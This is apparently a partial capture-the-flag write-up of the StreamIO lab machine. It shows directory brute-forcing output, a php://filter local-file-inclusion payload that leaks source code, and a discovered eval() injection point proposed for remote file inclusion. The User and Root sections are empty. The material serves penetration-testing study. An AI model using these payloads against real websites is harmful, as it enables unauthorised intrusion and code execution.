└─$ feroxbuster -u https://streamio.htb -x php -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -k 

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.10.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ https://streamio.htb
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.10.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💲  Extensions            │ [php]
 🏁  HTTP methods          │ [GET]
 🔓  Insecure              │ true
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET       29l       95w     1245c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
301      GET        2l       10w      150c https://streamio.htb/admin => https://streamio.htb/admin/
301      GET        2l       10w      151c https://streamio.htb/images => https://streamio.htb/images/
301      GET        2l       10w      147c https://streamio.htb/js => https://streamio.htb/js/
301      GET        2l       10w      148c https://streamio.htb/css => https://streamio.htb/css/
200      GET      395l      915w    13497c https://streamio.htb/index.php
200      GET      206l      430w     6434c https://streamio.htb/contact.php
200      GET      231l      571w     7825c https://streamio.htb/about.php
200      GET       51l      213w    19329c https://streamio.htb/images/client.jpg
200      GET      101l      173w     1663c https://streamio.htb/css/responsive.css
200      GET        5l      374w    21257c https://streamio.htb/js/popper.min.js
200      GET      863l     1698w    16966c https://streamio.htb/css/style.css
302      GET        0l        0w        0c https://streamio.htb/logout.php => https://streamio.htb/
200      GET      192l     1006w    82931c https://streamio.htb/images/icon.png
200      GET      111l      269w     4145c https://streamio.htb/login.php
200      GET        2l     1276w    88145c https://streamio.htb/js/jquery-3.4.1.min.js
200      GET      367l     1995w   166220c https://streamio.htb/images/contact-img.png
200      GET      191l      253w     3120c https://streamio.htb/css/login.css
200      GET      121l      291w     4500c https://streamio.htb/register.php
301      GET        2l       10w      157c https://streamio.htb/admin/images => https://streamio.htb/admin/images/
200      GET        0l        0w   233314c https://streamio.htb/images/about-img.png
200      GET      395l      915w    13497c https://streamio.htb/
301      GET        2l       10w      153c https://streamio.htb/admin/js => https://streamio.htb/admin/js/
301      GET        2l       10w      154c https://streamio.htb/admin/css => https://streamio.htb/admin/css/
301      GET        2l       10w      150c https://streamio.htb/fonts => https://streamio.htb/fonts/
403      GET        1l        1w       18c https://streamio.htb/admin/index.php
301      GET        2l       10w      156c https://streamio.htb/admin/fonts => https://streamio.htb/admin/fonts/
200      GET      274l     1677w   150222c https://streamio.htb/images/barry.png
200      GET     2059l    12754w  1028337c https://streamio.htb/images/samantha.png
200      GET        0l        0w   478934c https://streamio.htb/images/oliver.png
200      GET        2l        6w       58c https://streamio.htb/admin/master.php

```

- Now, if I supply `master.php` to `debug`
  - It returns everything from `STREAMIO` database



- Let's use `php` filter to dump the source code
  - `https://streamio.htb/admin/?debug=php://filter/convert.base64-encode/resource=master.php`



```
└─$ echo "..." | base64 -d
...
<?php
if(isset($_POST['include']))
{
if($_POST['include'] !== "index.php" ) 
eval(file_get_contents($_POST['include']));
else
echo(" ---- ERROR ---- ");
}
?>base64: invalid input
```

- We have a `include` parameter which we can use
  - It get the contents of the file and passes it to `eval`
  - We could try `RFI`


## User

## Root